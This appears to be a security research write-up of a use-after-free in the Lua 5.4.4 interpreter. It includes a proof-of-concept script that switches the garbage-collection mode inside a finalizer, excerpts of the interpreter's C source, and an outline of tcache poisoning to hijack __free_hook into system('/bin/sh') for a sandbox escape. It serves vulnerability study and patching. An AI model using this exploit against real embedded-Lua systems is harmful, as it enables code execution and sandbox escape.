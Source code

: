 ```yaml
---
title: "8. 0-day exploitable vulnerability in Lua interpreter"
categories:
  - Uncategorized
tags:
  - Lua
---
```


## Introduction

### POC

```lua
collectgarbage("incremental", 1)

for i = 1, 50 do
    local a = setmetatable(
        {},
        {  
            __gc = function()
                collectgarbage("generational")
            end
        }  --table 2
    )
    a[1] = 0xdeadbeef
    b = {0xcafebebe}
end
```

This code can trigger UAF vulnerability which allocate the chunk at address (0xcafebebe) and using this, we can exploit lua interpreter.

## Background knowledge for exploit

### collectgarbage

```lua
collectgarbage("incremental", 1)
```

We can change garbage collection mode by using collectgarbage() function. So, we use collectgarbage("incremental", 1) which change garbage collection mode to incremental mode and set garbage collection step to 1.

### Using finalizer with __gc method

```lua
local a = setmetatable(
  {},
  {  
      __gc = function()
				collectgarbage("generational")
      end
  }
}
```

We use finalizer which is executed when the object was collected during garbage collection process. We can use this with declaring __gc method by using setmetatable function. Then, if we use collectgarbage() function by using finalizer, what will happen? Finally, it change garbage collection mode during the garbage collection process. Unfortunately, Lua doesn't prepare this situataion, so if we use it, we can do something unexpected.

## Exploit Process

### OP_NEWTABLE in lvm.c:1340

allocate three object in one 'for loop'

```c
22	NEWTABLE	5 0 1	; 1
23	EXTRAARG	0	
24	LOADK	6 7	; 3405692606
25	SETLIST	5 1 0	
26	SETTABUP	0 6 5	; _ENV "b"
```

In OP_NEWTABLE, 'new table' marked as white is made, and they are stacked in L→stack. When we make a table in OP_NEWTABLE, g→GCdebt increases from negative to positive. At that time, if g→GCdebt is bigger than zero, it calls luaC_step by checkGC. Then, luaC_step starts garbage collection.

```c
vmcase(OP_NEWTABLE) {
  int b = GETARG_B(i);  /* log2(hash size) + 1 */
  int c = GETARG_C(i);  /* array size */
  Table *t;
  if (b > 0)
    b = 1 << (b - 1);  /* size is 2^(b - 1) */
  lua_assert((!TESTARG_k(i)) == (GETARG_Ax(*pc) == 0));
  if (TESTARG_k(i))  /* non-zero extra argument? */
    c += GETARG_Ax(*pc) * (MAXARG_C + 1);  /* add it to size */
  pc++;  /* skip extra argument */
  L->top = ra + 1;  /* correct top in case of emergency GC */
  t = luaH_new(L);  /* memory allocation */
  sethvalue2s(L, ra, t);
  if (b != 0 || c != 0)
    luaH_resize(L, t, c, b);  /* idem */
  checkGC(L, ra + 1);
  vmbreak;
}
```

### Change garbage collection mode in finalizer

When it first started working, garbage collection mode is "incremental" mode. But when the finalizer starts, the garbage collection mode is changed to "generational" mode. During that process, in luaC_changemode, g→gckind is changed to 1 and conduct genstep, but after it, garbage collecter executes incsteps without knowing the garbage collector mode was changed to generational mode. As a result, everything goes wrong. Because there are some conflicts between the incstep and the genstep in marking the object and setting their age, the objects are marked and their age are set up stragely.

After first garbaged collecter ended, g→GCdebt is still positive number, and some important objects which should not be marked or be aged marked and aged. So it starts again immediately after next OP_NEWTABLE, and atomic function is executed. During this process, lua_State get out of g→gray list.

### Marking Process

After executing several ‘for loop’, generational garbage collection starts when g→GCdebt is bigger than 0. Then, luaC_step calls genstep, genstep calls atomic, and atomic calls propagatemark. So in propagatemark function, it brings GCobject in g→gray list and traverse with it. 

```c
static lu_mem propagatemark (global_State *g) {
  
	GCObject *o = g->gray;
  
	nw2black(o);
  
  g->gray = *getgclist(o);  /* remove from 'gray' list */
  switch (o->tt) {
    case LUA_VTABLE: return traversetable(g, gco2t(o));
    case LUA_VUSERDATA: return traverseudata(g, gco2u(o));
    case LUA_VLCL: return traverseLclosure(g, gco2lcl(o));
    case LUA_VCCL: return traverseCclosure(g, gco2ccl(o));
    case LUA_VPROTO: return traverseproto(g, gco2p(o));
    case LUA_VTHREAD: return traversethread(g, gco2th(o));
    default: lua_assert(0); return 0;
  }
}
```

In normal case without vulnerable code, lua_State(L) is marked as gray and linked to g→gray. So traversethread called in propagatemark conduct traverse step which marks objects in L→stack as gray and links them to g→graylist if it is white.

```c
static int traversethread (global_State *g, lua_State *th) {
  UpVal *uv;
  StkId o = th->stack;
  // ... ommitted
  for (; o < th->top; o++) { /* mark live elements in the stack */
    markvalue(g, s2v(o));
  } 
  // ... omitted
}

#define markvalue(g,o) { checkliveness(g->mainthread,o); \
  if (valiswhite(o)) reallymarkobject(g,gcvalue(o)); }

```

But, vulnerable case with vulnerable code, lua_State is not in g→gray. So traversethread won’t be called and objects in L→stack also will not be marked as gray and linked to g→gray. Eventually when they enter the sweepgen as they are still white, they are freed in freeobj.

```c
static GCObject **sweepgen (lua_State *L, global_State *g, GCObject **p,
                            GCObject *limit, GCObject **pfirstold1) {
  // ... omitted
  int white = luaC_white(g);
  GCObject *curr;
  while ((curr = *p) != limit) {
    if (iswhite(curr)) {  /* is 'curr' dead? */
      lua_assert(!isold(curr) && isdead(g, curr));
      *p = curr->next;  /* remove 'curr' from list */
      freeobj(L, curr);  /* erase 'curr' */
    }
    // ... omitted
  }
  return p;
}
```

### OP_SETLIST in lvm.c:1803

After executing OP_NEWTABLE, OP_SETLIST is executed to insert value in the table.

```c
vmcase(OP_SETLIST) {
  int n = GETARG_B(i);
  unsigned int last = GETARG_C(i);
  Table *h = hvalue(s2v(ra));
  //... omitted
  for (; n > 0; n--) {
    TValue *val = s2v(ra + n);
    setobj2t(L, &h->array[last - 1], val);
    last--;
    luaC_barrierback(L, obj2gco(h), val);
  }
  vmbreak;
}
```

But because the table which was made in OP_NEWTABLE is freed, the value is inserted to freed object in tcache_bin. So it leads to UAF vulnerability.

### Tcachebin Poisoning

We can change the address of next table by writing something on the freed chunk in Tcachebins[idx=0, size=0x20]. So I wrote the __free_hook address in the freed chunk, then I could get the chunk at __free_hook. As a result, I can write something at the address of __free_hook, and If writing system function address in __free_hook, the system function executes when the free() functoin is called. 

When the script ends, free(object) will be changed to system(”/bin/sh”)

### Entire Exploit Code with Docker

[https://github.com/Lua-Project/lua-5.4.4-sandbox-escape-with-new-vulnerability](https://github.com/Lua-Project/lua-5.4.4-sandbox-escape-with-new-vulnerability)